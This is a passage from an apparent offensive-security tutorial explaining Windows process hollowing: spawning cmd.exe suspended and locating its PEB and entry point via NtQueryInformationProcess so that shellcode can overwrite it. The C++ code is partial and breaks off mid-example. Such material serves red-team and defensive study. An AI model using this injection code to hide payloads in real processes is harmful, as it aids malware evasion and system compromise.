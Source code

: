 ```c++
    CloseHandle(pi.hProcess);
}
```

## Process hollowing

This is a technique where a process is started in a suspended state, the original PE is unmapped from memory, and a new PE mapped in its place.  A half-way house to process hollowing is where we simply overwrite the PE's entry point with shellcode, without unmapping anything first.  When the process is resumed, the process's primary thread will be pointing at our shellcode instead of the PE's executable code section.

Finding the PE's entry point requires us to read its structure from memory while it's suspended.  There's a native API called [NtQueryInformationProcess](https://learn.microsoft.com/en-us/windows/win32/api/winternl/nf-winternl-ntqueryinformationprocess) which is able to populate a structure called `PROCESS_BASIC_INFORMATION`.  One of its members is _PebBaseAddress_ which is a pointer to a [PEB](https://learn.microsoft.com/en-us/windows/win32/api/winternl/ns-winternl-peb) structure.  It's not documented, but one of its members is _ImageBaseAddress_.

From there, we can read PE's DOS header to get the value for `e_lfanew`, and then use that to locate the NT header.  Drilling down into `OptionalHeader->AddressOfEntryPoint` gives us the relative virtual address (RVA) of the PE's entry point.
```c++
#include <Windows.h>
#include <winternl.h>

#pragma comment(lib, "ntdll.lib")

int main()
{
    unsigned char shellcode[] = "...";

    STARTUPINFOW si = { 0 };
    si.cb = sizeof(si);
    si.dwFlags = STARTF_USESHOWWINDOW;

    PROCESS_INFORMATION pi = { 0 };

    // spawn process in suspended state
    CreateProcess(
        L"C:\\Windows\\System32\\cmd.exe",
        NULL,
        NULL,
        NULL,
        FALSE,
        CREATE_SUSPENDED,
        NULL,
        L"C:\\Windows\\System32",
        &si,
        &pi
    );

    // get the process information to find the address of the PEB
    PROCESS_BASIC_INFORMATION pbi = { 0 };
    ULONG returnLength;
    NtQueryInformationProcess(
        pi.hProcess,
        ProcessBasicInformation,
        &pbi,
        sizeof(pbi),
        &returnLength
    );

    // the image base address is always at PEB + 0x10 for x64
```